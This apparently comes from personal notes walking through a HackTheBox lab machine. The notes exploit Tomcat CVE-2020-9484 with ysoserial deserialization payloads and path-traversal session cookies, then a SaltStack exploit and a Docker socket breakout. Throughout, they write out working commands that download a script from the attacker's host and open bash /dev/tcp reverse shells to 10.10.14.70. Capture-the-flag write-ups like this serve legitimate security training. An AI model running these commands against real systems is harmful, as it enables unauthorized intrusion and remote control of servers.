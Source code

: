 HackTheBox
# Scan
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401181810.png)

# Uploading files
When trying to upload a file, it accepts all extension, even whithout any, however when there is no filename, there is an error.

![[Pasted image 20240402175526.png]]

Testing email: *test@tes    t.com* We have an error as well:
![[Pasted image 20240402175654.png]]
It seems that the upload folder is */opt/samples/uploads* but we don't have access to this

Considering the errors and nmap scan result, this service uses **Apache 9.0.27** which is vulnerable

https://github.com/PenTestical/CVE-2020-9484

Explanation of CVE-2020-9484
https://www.prismosystems.com/blog/cve-2020-9484#:~:text=Exploitation%20Details%20of%20CVE%2D2020%2D9484&text=The%20vulnerability%20resides%20in%20Persistent,of%20the%20attacker%2Dcontrolled%20object.

If *JSSESIONID=../../../../../tmp/test* , at first the manager will verify if this is in memory, is not Persistance Manager (if configured) check if this is stored in disk in the path as *"sessionid".session*

It will look in that path as test.session, as we know that probably .session file will be stored in */opt/samples/uploads* so we can create the payload:

*JSESSIONID=../../../../opt/samples/uploads/file*

Using a *filename=file.session*, in this maner as JSESSIONID doesn't exist in memory, Pesistance Manager wil look for add the extension .session to file, we wiil look for *file.session* in upload *file* and as there is a coincidence, it will execute *file.session*

Using Vulnerable Serialization
#VulnerableSerialization
![[Ysoserial]]

Tyring a ping test, we craft a payload loading a file *ping.session*

`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session`

We can now upload *pin.session* to the vulnerable web server.

### Execution of the payload
We can call this file directly by using *curl* and to get the pin response, we wait for a response by using *tcpdump* tool, the vulnerable JSESSIONID receives the storage path of the application and Persistant manager adds '.session' at the end
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping"
````

However, we don't receive anything

![[Pasted image 20240403082426.png]]
### Using CommonsCollections2
````
java -jar ysoserial-all.jar CommonsCollections2 'ping -c 1 10.10.14.70' > ping2.session
````
![[Pasted image 20240403155457.png]]
After loaded, we lunch the curl:
`curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping2"`

Now we receive the ICMP

**Note:** It's necessary to have a JSESSION ID to load the file so at first we must try with different payloads or load many time until get one, if not it won't work.

## Remote Code execution

We can send a reverse shell in three steps:
### 1. Generating the reverse shell
By leveraging curl, we can upload by a web server in our side by crafting an *index.html* file with a reverse shell:

`#!/bin/bash`
`bash -i >& /dev/tcp/10.10.14.70/4443 0>&1`

Creating the file, after uploaded to the file
 java -jar ysoserial-all.jar CommonsCollections2 'curl 10.10.14.70 -o /dev/shm/reverse.sh' > pwned.session

````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned"
````

We get a GET request so we can infer it was executed and 
![[Pasted image 20240403160836.png]]
### 2. Giving execution permission
````
 java -jar ysoserial-all.jar CommonsCollections2 'chmod +x /dev/shm/reverse.sh' > pwned2.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned2"
````
### 3. Generating the shell
````
 java -jar ysoserial-all.jar CommonsCollections2 '/dev/shm/reverse.sh' > pwned3.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned3"
````

curl must be executing with the port 4443 already listening

![[Pasted image 20240403163214.png]]

## Privilege Escalation
We can exploit pkexec but it's not the purpose of this machine 
`find \-perm -4000 2>/dev/null`
![[Pasted image 20240403163952.png]]

Reviewing internal ports
`netstat -nat`

![[Pasted image 20240403164128.png]]

## SaltStak exploitation
Ports 4505 and 4506 were not found in nmap scam

https://www.exploit-db.com/exploits/48421

![[Pasted image 20240403171344.png]]

For this exploit we need to have installed module *salt*

As ports 4505 and 4506 are open internally, we can have access to them by chisel 
Uloading chisel:
![[Pasted image 20240403172222.png]]

Creating the tunnel:
![[Pasted image 20240403172333.png]]

Adding to /etc/proxychains.conf

![[Pasted image 20240403172430.png]]

### Using the exploit with proxychains

`proxychains python3 ssaltstack_exploit.py`

Testing command execution with the exploit:
`proxychains python3 ssaltstack_exploit.py --exec "ping 10.10.14.70"`
![[Pasted image 20240403172910.png]]

### Creating a shell to the container
We test as first `"bash -c 'bash -i >& /dev/tcp/10.10.14.70/4443 0>&1'"` but it doesn't work, considering using *'* at the beginning and *"* in the inner bash.

`proxychains python3 saltstack_exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1"'`

![[Pasted image 20240403173313.png]]

## Docker Container breakout
[[Docker Breakout]]

Checking files and *history* of the machine  
- The `history` command in Linux is a powerful feature used primarily in command-line interfaces (CLI) to display a list of commands that have been previously entered by the user in the current session or saved in a user's history file
We found a curl to *docker.sock* to list images

![[Pasted image 20240403175021.png]]
we only have access to this with *--unix-sockets*

We can see the same information prettier by sending to the attacker machine

![[Pasted image 20240403180537.png]]
![[Pasted image 20240403180522.png]]

We can try as well:
`curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json`

To get access to dockers from the main machine, we don't have permissions but we can confirm that the path is /file/run/docker that is found in the container
![[Pasted image 20240403180841.png]]

## Writable Docker Socket
We already found an image called *sandbox:latest* 

![[Writable Docker Socket (docker.sock)]]
